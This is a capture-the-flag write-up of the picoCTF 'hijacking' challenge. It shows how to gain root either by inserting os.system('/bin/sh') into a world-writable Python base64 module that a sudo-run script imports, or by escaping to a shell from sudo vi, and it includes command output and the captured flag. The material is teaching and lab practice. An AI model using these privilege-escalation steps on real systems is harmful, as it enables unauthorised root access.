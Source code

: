 # hijacking

Python Library hijacking, Privilege Escalation

## Description of challenge

You are asked to ssh into a shell (as the user *picoctf*) which home directory contains the [`.server.py`](./.server.py) hidden file. 

The flag is in `metadata.json` in the `/challenge` directory which you have no read permissions. 

> Note: Upon reading other writeups, it is revealed that the flag is in `/root/.flag.txt`. This does not affect the exploit, however. 

Also, we see that we are allowed certain sudo permissions

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

which means that we can
1. run `/usr/bin/vi` as any user, and
2. run the command `sudo /usr/bin/python3 /home/picoctf/.server.py` without requiring a password. 

(1) can be used to obtain the flag, but in the spirit of learning about Python library hijacking, let us instead use (2). 

## Conditions for Exploit

The following conditions give us the ability to hijack the imported Python library for privilege escalation
1. `.server.py` is a file that is run with root privileges, as it is owned by root
2. `/usr/lib/python3.8/base64.py` is a file we have rwx permissions to
3. `.server.py` calls a static method of the imported `base64` module

We find the file in (2) by first dumping the search priority for python3 on the remote host with the command 

```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

which gives us 

```

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

If we then run `ls -la | grep -E '^.{7}rwx'` in `/usr/lib/python3.8`, we get

```bash
picoctf@challenge:/usr/lib/python3.8$ ls -la | grep -E '^.{7}rwx'
lrwxrwxrwx 1 root root     35 May 26  2023 _sysconfigdata__linux_x86_64-linux-gnu.py -> _sysconfigdata__x86_64-linux-gnu.py
-rwxrwxrwx 1 root root  20382 May 26  2023 base64.py
lrwxrwxrwx 1 root root     31 May 26  2023 sitecustomize.py -> /etc/python3.8/sitecustomize.py
```

which tells that we have rwx permissions for `base64.py`. 

Let us call the Python Library hijacking we are about to perform Method 1. 

## Method 1: Python Library hijacking

Since we have rwx permissions to the imported `base64` module used by `.server.py`, we can modify the method used in `.server.py` to run ./bin/sh for us. 

```python
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object blah blah
    """
    os.system("/bin/sh")
    encoded = binascii.b2a_base64(s, newline=False)
    ...
    return encoded
```

The issue, however, is that execution of `.server.py` errors out before `base64.b64encode` is run. 

```bash
picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Since imported modules are basically Python code that is copied and run before the actual script runs, we can instead make the following modification to `/usr/lib/python3.8/base64.py`

```python
# Some author credits, etc

import re
import struct
import binascii
import os

os.system('/bin/sh')
```

Now if we run `sudo python3 /home/picoctf/.server.py`, we are dropped into a shell with root privileges

```
picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py

# ls
# whoami
root
# cat /challenge/metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}", "username": "picoctf", "password": "w26873vTLt"}
```

## Method 2: Privilege Escalation through vi

Recall from the [challenge description](#description-of-challenge) that we can run `/usr/bin/vi` as any user. 

Also note that we can run the following within vi to escape to a shell

```vi
:!bash
```

Method 2 thus simply involves running `/usr/bin/vi` as root using `sudo` and then escaping to a root shell from there to get the flag

```bash
picoctf@challenge:~$ sudo vi
[sudo] password for picoctf: <input the password for user picoctf>

...

root@challenge:/home/picoctf# cd ../../
root@challenge:/# cd challenge
root@challenge:/challenge# ls
metadata.json
root@challenge:/challenge# cat metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}", "username": "picoctf", "password": "w26873vTLt"}
```